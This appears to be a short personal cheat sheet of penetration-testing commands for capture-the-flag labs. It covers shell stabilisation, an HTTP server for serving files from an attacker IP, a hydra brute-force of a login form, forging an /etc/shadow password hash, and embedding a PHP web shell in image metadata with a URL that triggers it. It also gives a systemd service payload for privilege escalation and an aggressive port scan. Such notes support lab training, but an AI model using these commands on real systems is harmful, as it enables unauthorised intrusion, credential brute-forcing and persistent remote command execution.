 


Stabalize Shell Spawn

```
python -c 'import pty; pty.spawn("/bin/bash")'

/usr/bin/script -qc /bin/bash /dev/null


```

# Python Server Start

```
python3 -m http.server --bind 10.17.47.159 9000
```


## HYDRA HTTP-POST FROM BRUTE FORCE


```
hydra -l <Login_Name> -P <wordlist> 10.10.145.133 http-post-form '/admin/:user=^USER^&pass=^PASS^:Username or password invalid'
  
```


## GENERATE PASSWORD HASH FOR /etc/shadow

```
mkpasswd -m sha-512 newpasswordhere
```

  
  

steghide extract -sf Alice-White-Rabbit.jpg

  
  

exiftool -Notes='<?php system($_GET["cmd"]); ?>' a.jpeg

http://victim.machine/uploads/image.php.png?cmd=ls

  
  

echo '[Service] Type=oneshot ExecStart=/bin/sh -c "id > /tmp/output" [Install] WantedBy=multi-user.target' > $TF

  
  
  

rustscan -a owl.thm -- -sC -sV -A -oA yearoftheowl -v --ulimit 10000